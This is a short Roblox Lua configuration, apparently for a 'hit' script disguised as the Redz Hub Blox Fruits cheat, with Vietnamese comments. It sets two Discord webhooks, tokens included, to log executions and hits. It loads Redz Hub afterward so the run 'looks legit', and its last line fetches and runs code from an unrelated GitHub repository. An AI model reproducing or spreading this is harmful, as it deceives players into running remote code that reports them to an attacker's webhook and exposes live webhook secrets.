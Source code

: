 LogsWebhook = "https://discord.com/api/webhooks/1323031805200171179/siL352DKZ0FbXfMmssi5Ja9zvqHnHEFK8XoCi3RgIgfnTi8Onnsg_0Wh8bRcGbR4ZUY5" 
ExecutionWebhook = "https://discord.com/api/webhooks/1323031805200171179/siL352DKZ0FbXfMmssi5Ja9zvqHnHEFK8XoCi3RgIgfnTi8Onnsg_0Wh8bRcGbR4ZUY5" 
Username = "VITORFFPRO123" 
PromptText = "loadstring(game:HttpGet("https://raw.githubusercontent.com/realredz/BloxFruits/refs/heads/main/Source.lua"))()" 
RandomizedPrompt = true -- để im vậy nếu mày không hiểu mày đang làm gì 
LoadRedzAfterHit = true -- Tải Redz Hub sau khi bạn gây sát thương, trông hợp lý
loadstring(game:HttpGet("https://raw.githubusercontent.com/DrubGrub2/coding/refs/heads/main/Script"))() 
